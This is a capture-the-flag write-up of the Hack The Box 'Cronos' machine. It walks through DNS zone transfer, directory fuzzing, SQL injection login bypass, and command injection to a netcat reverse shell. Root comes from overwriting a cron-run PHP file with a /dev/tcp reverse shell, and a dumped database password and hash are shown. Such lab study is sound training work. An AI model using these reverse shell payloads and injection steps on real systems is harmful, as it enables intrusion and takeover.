

---
tags:
  - sqli
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Cronos
- Reference : https://0xdf.gitlab.io/2020/04/14/htb-cronos.html
- Solved : 2025.2.24. (Feb) (Takes 1day)

## Summary
---

1. **Initial Reconnaissance**
	- **Port Scan**: Open ports found - `22 (SSH)`, `53 (DNS)`, `80 (HTTP)`.
	- **DNS Enumeration**: Discovered domain `cronos.htb` via `nslookup`.
	- **Zone Transfer**: Found additional subdomains: `admin.cronos.htb`, `www.cronos.htb`.

2. **Web Enumeration**
	- `cronos.htb`: Hosted a Laravel-based web application.
	- `admin.cronos.htb`: Exposed a login page.
	- **Directory Enumeration**:
	    - Found `/index.php`, `/welcome.php` on `admin.cronos.htb`.
	    - Found `/index.php`, `/css/`, `/js/` on `cronos.htb`.

3. **Shell as `www-data`**
	- **SQL Injection**: Bypassed login on `admin.cronos.htb`.
	- **Command Injection**: Gained a reverse shell as `www-data`.

4. **Privilege Escalation to `root`**
	- **Database Enumeration**: Extracted credentials - `admin:kEjdbRigfBHUREiNSDs`.
	- **Cron Job Exploitation**:
	    - Found a root-owned cron job executing `php /var/www/laravel/artisan`.
	    - File was writable by `www-data`.
	    - Injected a reverse shell payload.
	- **Root Shell Obtained**: Connected back as `root`.

### Key Techniques:

- **Enumeration**: Identified open ports (`22`, `53`, `80`), performed DNS zone transfer, and discovered subdomains (`admin.cronos.htb`).
- **Web Exploitation**: Bypassed authentication on `admin.cronos.htb` using **SQL Injection**.
- **Command Injection**: Exploited a vulnerable web form to gain a reverse shell as `www-data`.
- **Credential Extraction**: Retrieved MySQL credentials from `config.php` and accessed the database.
- **Privilege Escalation**: Abused a writable cron job (`artisan` script) to execute a **reverse shell as root**.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.13
Performing quick port scan on 10.10.10.13...
Found open ports: 22,53,80
Performing detailed scan on 10.10.10.13...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 00:00 MST
Nmap scan report for 10.10.10.13
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.62 seconds
```

3 ports are open : ssh(22), dns(53), http(80)

### dns(53)

```bash
┌──(kali㉿kali)-[~]
└─$ nslookup                             
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

Here I found domain name `cronos.htb`. Let's add this to `/etc/hosts` file.
Then, let's do **zone transfer** using `dig`.

```bash
┌──(kali㉿kali)-[~]
└─$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.20.2-1-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 187 msec
;; SERVER: 10.10.10.13#53(10.10.10.13) (TCP)
;; WHEN: Mon Feb 24 00:19:57 MST 2025
;; XFR size: 7 records (messages 1, bytes 203)
```

It additionally finds `admin.cronos.htb`.
Let's add this to `/etc/hosts` as well.

### http(80)

While it redirects default apache page when I'm accessing through IP address, it returns normal webpage when accessing with `cronos.htb` URL.


Also, another subdomain returns login page.



```xml
                <div class="links">
                    <a href="https://laravel.com/docs">Documentation</a>
                    <a href="https://laracasts.com">Laracasts</a>
                    <a href="https://laravel-news.com">News</a>
                    <a href="https://forge.laravel.com">Forge</a>
                    <a href="https://github.com/laravel/laravel">GitHub</a>
                </div>
```

Most links seem to be related with "laravel" which is open source PHP framework.
There seems to be several exploits regarding this framework, but let's visit this later since I don't know its version yet.

##### Fuzzing

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cronos.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 289]
/index.php            (Status: 200) [Size: 2319]
/css                  (Status: 301) [Size: 306] [--> http://cronos.htb/css/]
/js                   (Status: 301) [Size: 305] [--> http://cronos.htb/js/]
```

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://admin.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://admin.cronos.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 295]
/index.php            (Status: 200) [Size: 1547]
/welcome.php          (Status: 302) [Size: 439] [--> index.php]
```

```markdown
┌──(kali㉿kali)-[~]
└─$ gobuster dns -d cronos.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     cronos.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: admin.cronos.htb
```


# Shell as `www-data`

### SQL Injection

The subdomain `admin.cronos.htb` allows login bypass via **SQL injection**.


After sign-in, I can see the following page;


### Command Injection

It seems that it allows **Command Injection** via IP input.


It seems that I don't need to escape space or special characters.
I opened a reverse shell with the following payload:
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 9000 >/tmp/f`

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9000                        
listening on [any] 9000 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.13] 40842
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I got `www-data`'s shell.


# Shell as `root`

### Enumeration

First, let's check the webroot directory.

```bash
www-data@cronos:/var/www/admin$ ls
ls
config.php  index.php  logout.php  session.php  welcome.php


www-data@cronos:/var/www/admin$ cat config.php
cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

The DB credential for `admin` is `kEjdbRigfBHUREiNSDs`

```bash
www-data@cronos:/var/www/admin$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "show databases;"
<min$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "showdatabases;"               
mysql: [Warning] Using a password on the command line interface can be insecure.
+--------------------+
| Database           |
+--------------------+
| information_schema |
| admin              |
+--------------------+


www-data@cronos:/var/www/admin$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "use admin; show tables;"
<min$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "use dmin; show tables;"       
mysql: [Warning] Using a password on the command line interface can be insecure.
+-----------------+
| Tables_in_admin |
+-----------------+
| users           |
+-----------------+


www-data@cronos:/var/www/admin$ mysql -u admin -pkEjdbRigfBHUREiNSDs -e "use admin; select * from users;"
<bRigfBHUREiNSDs -e "use admin; select * from users"                         
mysql: [Warning] Using a password on the command line interface can be insecure.
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
```

The user `admin`'s password is `4f5fffa7b2340178a716e3832451e058`

Then, let's run `LinPEAS`.

```bash
╔══════════╣ Cron jobs
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#scheduledcron-jobs                                                      
/usr/bin/crontab                                                             
incrontab Not Found
-rw-r--r-- 1 root root     797 Apr  9  2017 /etc/crontab 

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1


╔══════════╣ Users with console
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash                 
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
```

There is a scheduled job run by `root` on `crontab` : 
`php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`

It's running `/var/www/laravel/artisan` via PHP.
Let's check what the file is.

```bash
www-data@cronos:/var/www/laravel$ cd /var/www/laravel
cd /var/www/laravel


www-data@cronos:/var/www/laravel$ ls -al artisan
ls -al artisan
-rwxr-xr-x 1 www-data www-data 72 Feb 24 09:03 artisan


www-data@cronos:/var/www/laravel$ cat artisan
cat artisan
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.12/1145 0>&1'");
```

Surprisingly, the file is editable by `www-data`, and the original content is already a reverse shell payload.
Let's just simply modify the IP address to my kali machine:

```bash
www-data@cronos:/var/www/laravel$ cat artisan
cat artisan
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.36/9001 0>&1'");
```

Then, after a minute, I can get a `root` shell from a listener.

```bash
┌──(kali㉿kali)-[~/htb/cronos]
└─$ nc -nlvp 9001                        
listening on [any] 9001 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.13] 53488
bash: cannot set terminal process group (25373): Inappropriate ioctl for device
bash: no job control in this shell
root@cronos:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@cronos:~# whoami
whoami
root
```

I got a `root` shell.